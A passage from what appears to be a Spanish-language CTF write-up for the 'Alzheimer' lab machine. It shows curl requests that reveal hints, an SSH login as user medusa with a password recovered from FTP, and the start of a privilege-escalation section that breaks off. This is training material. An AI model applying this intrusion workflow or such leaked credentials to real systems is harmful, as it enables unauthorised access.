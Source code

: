 Este es el contenido del archivo

```bash
❯ curl http://192.168.100.45/home/index.html
Maybe my pass is at home!
-medusa
```

Nos dan otra pista

```bash
❯ curl -L http://192.168.100.45/secret
Maybe my password is in this secret folder?
```

## SSH medusa

Pero bueno podemos probar el usuario `medusa:Ihavebeenalwayshere!!!` y esa contraseña que fue la que encontramos en el `.txt` de `ftp` y al ser el unico archivo `.txt` podemos probarla 

```bash
❯ ssh medusa@192.168.100.45
The authenticity of host '192.168.100.45 (192.168.100.45)' can't be established.
ECDSA key fingerprint is SHA256:wWRc6/Q965DMK5vCXDfkS7wisnO/kkBLzA+WjYjEIzg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.45' (ECDSA) to the list of known hosts.
medusa@192.168.100.45's password: 
Linux alzheimer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct  3 06:00:36 2020 from 192.168.1.58
medusa@alzheimer:~$
medusa@alzheimer:~$ export TERM=xterm
``` 

## User flag 

![](/assets/images/hvm-writeup-alzheimer/web2.png) 

## Escalada de privilegios 

Podemos ejecutar como cualquier usuario sin proporcionar contraseña este comando 
